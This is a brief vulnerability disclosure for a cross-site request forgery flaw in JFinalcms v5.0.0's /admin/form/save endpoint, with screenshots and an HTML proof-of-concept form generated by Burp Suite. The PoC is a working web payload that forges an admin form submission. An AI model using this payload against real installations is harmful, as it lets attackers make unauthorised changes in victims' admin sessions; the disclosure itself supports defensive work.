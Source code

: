 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/form/save

![图片](https://github.com/cui2shark/cms/assets/52313275/a43b5c05-275f-40b6-9841-c03e65d35aea)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/8027151d-ce94-4f83-91fa-60c51aa0a00f)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/form/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="tableName" value="123" />
      <input type="hidden" name="code" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

